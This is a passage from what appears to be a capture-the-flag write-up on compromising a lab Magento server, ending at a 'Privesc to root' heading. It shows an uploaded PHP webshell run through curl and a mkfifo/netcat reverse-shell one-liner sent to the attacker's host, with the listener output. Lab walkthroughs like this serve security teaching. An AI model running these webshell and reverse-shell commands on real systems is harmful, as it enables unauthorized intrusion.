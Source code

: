 Now I’ll use `tar` to package it up:

```

root@kali# tar -czvf package.tgz errors/ package.xml 
errors/
errors/cmd.php
package.xml
root@kali# ls
errors  package.tgz  package.xml

```

And upload the `tgz` file, and I have RCE through a webshell:

```

root@kali# curl http://10.10.10.140/errors/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

With either RCE, I can upgrade to a legit shell:

```

root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"

```

```

root@kali# nc -lnvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:41828.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

From there I can grab `user.txt`:

```

$ cat user.txt 
a4488772...

```

## Privesc to root
